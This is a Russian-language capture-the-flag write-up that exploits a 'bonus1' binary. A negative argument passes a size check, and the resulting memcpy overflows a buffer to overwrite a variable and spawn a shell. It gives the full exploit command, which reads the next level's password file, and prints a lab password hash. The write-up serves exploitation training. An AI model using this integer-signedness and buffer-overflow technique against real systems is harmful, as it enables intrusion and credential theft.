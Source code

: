## bonus1
Чтобы перейти к части программы, запускающей программную оболочку, необходимо передать ей такой аргумент, который бы прошел две проверки:

```c
#include <string.h>
#include <unistd.h>
#include <stdlib.h>

int main(int argc, char **argv) {
	int		val; // хранится по адресу $esp+0x3c
	char	buffer[40]; // начинается по адресу $esp+0x14

	val = atoi(argv[1]);
	// ПРОВЕРКА 1
	if (val > 9) {
		return 1;
	}

	memcpy(buffer, argv[2], val << 2);
	// ПРОВЕРКА 2
	if (val == 0x574f4c46) {
		execl("/bin/sh", "sh", NULL);
	}
	return 0;
}
```

Чтобы пройти первую проверку,  значение `val `  не должно превышать 9, в то время как для второй проверки `val` должно равняться `0x574f4c46`. Значит, нам нужно воспользоваться вызовом `memcpy`, расположенным между проверками, для того чтобы переполнить буфер и заменить значение `val ` на `0x574f4c46`.

Между началом буфера и переменной `val`  лежит  `0x3c-0x14=40` байтов. Чтобы `memcpy` записал достаточное количество байтов, `val` должен одновременно удовлетворять двум условиям:

* `val <= 9`
* `val << 2 = 44`

Это осуществимо, ведь, согласно [дополнительному коду](https://ru.wikipedia.org/wiki/Дополнительный_код), можно просто включить наибольший бит в 32-битном представлении числа `44 >> 2 = 11`. Получается `10000000000000000000000000001011`, что равно `-2147483637`.

Наша атака, таким образом, имеет следующий вид:

```sh
$ echo "cd ..; cat bonus2/.pass" | ./bonus1 -2147483637 $(python -c 'print "a"*40 + "\x46\x4c\x4f\x57"')
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
